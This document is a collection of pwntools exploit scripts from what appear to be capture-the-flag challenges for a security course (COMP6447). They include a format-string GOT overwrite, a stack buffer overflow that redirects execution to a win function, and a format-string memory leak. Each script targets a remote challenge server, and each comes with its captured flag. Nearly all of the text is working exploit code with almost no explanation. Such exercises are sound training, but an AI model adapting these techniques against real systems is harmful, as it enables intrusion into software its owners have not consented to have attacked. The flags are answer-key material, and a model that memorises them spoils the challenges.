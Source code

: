 ​##ezpz2
COMP6447{This_was_slightly_less_ezpz}

from pwn import *
context.log_level = 'debug'
# p = process('./ezpz2')
p = remote("plzpwn.me","9449")
q = p.recv()
p.sendline('n')
q = p.recv()
q = p.recv()
print "should enter answer now"
fmt = "AAAA.%1$x"
p.sendline(fmt)
q = p.recv()
p.sendline('A')
q = p.recvuntil(".")
ad = p.recvline()[:-1]
winAd = int(ad,16)-10260
gotAd = winAd+9605
log.info("winAd: " + hex(winAd))
log.info("gotAd: " + hex(gotAd))
p.recv()
p.sendline('n')
p.recv()
def pay(q):
    p.sendline(q)
    log.info(repr(q))
form = FmtStr(execute_fmt=pay, offset=8, padlen=3)
form.write(gotAd, winAd)
form.execute_writes()
p.interactive()

## ezpz
COMP6447{This_was_not_ezpz}
from pwn import *
context.terminal = ['tmux', 'splitw', '-h']
# p = process('./ezpz')
p = remote('plzpwn.me','9447')
# gdb.attach(p, gdbscript='break *ask_question+63')
p.recv()
p.sendline('n')
p.recv()
win = 0x8048714
# p.sendline(cyclic(80))
p.sendline(cyclic(72)+p32(win))
q = p.recv()
print q
p.sendline('a')
q = p.recv()
p.interactive()
print q

## format101

COMP6447{1_kn0w_h0w_f0rm4t_str1ng5_w0rk}

from pwn import *
# p = process('./format101')
p = remote('plzpwn.me',"9448")
p.recv()
p.sendline('\x60\xa0\x04\x08'+'%7$s')
print(p.recv())